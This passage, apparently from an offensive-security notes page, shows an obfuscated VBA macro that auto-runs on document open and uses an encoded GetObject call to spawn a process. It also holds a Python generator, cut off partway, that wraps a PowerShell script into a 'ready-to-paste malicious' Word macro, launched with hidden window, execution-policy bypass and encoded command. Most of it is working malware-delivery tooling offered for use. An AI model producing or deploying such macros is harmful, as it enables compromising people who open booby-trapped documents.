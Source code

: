 ```vba
  Dim Water As String
  Apples = "31.." _
& "33.." _
& "33.." _
& "37.."
  Water = Nuts(Apples)
  GetObject(Nuts("022008015012006012021018091")).Get(Nuts("054008015082083062049019014002004018018")).Create Water, Tea, Coffee, Napkin
End Function

Sub Document_Open()
  Evil
End Sub

Sub AutoOpen()
  Evil
End Sub
```
{% endcode %}




## Helpers

Generate a ready-to-paste malicios MS Word macro (execution is provided by VBA [Shell function](https://docs.microsoft.com/ru-ru/office/vba/language/reference/user-interface-help/shell-function)):

{% code title="gen_doc_autoopen_payload_vbshell.py" %}
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys
from base64 import b64encode
from argparse import ArgumentParser

parser = ArgumentParser()
parser.add_argument('pwsh_file', help='PowerShell script to execute')
parser.add_argument('--chunk-size', type=int, default=200, help='length of a payload chunk line')  # if less for big payloads, Windows can error out about "too many line continuations"
args = parser.parse_args()


def gen_payload_vbshell(pwsh_file, chunk_size):
  with open(pwsh_file, 'r', encoding='utf-8') as f:
    payload = f.read()

  payload = payload.encode('utf-16le')
  payload = b64encode(payload).decode()
  payload = [payload[i:i + chunk_size] for i in range(0, len(payload), chunk_size)]
  payload = [f'"{chunk}"' for chunk in payload]
  payload = ' _\r\n& '.join(payload)

  payload = f"""\
    Sub AutoOpen()\r
      Evil\r
    End Sub\r
    \r
    Sub Document_Open()\r
      Evil\r
    End Sub\r
    \r
    Sub Evil()\r
      Text = "powershell -exec bypass -nop -nologo -w hidden -enc " _\r
```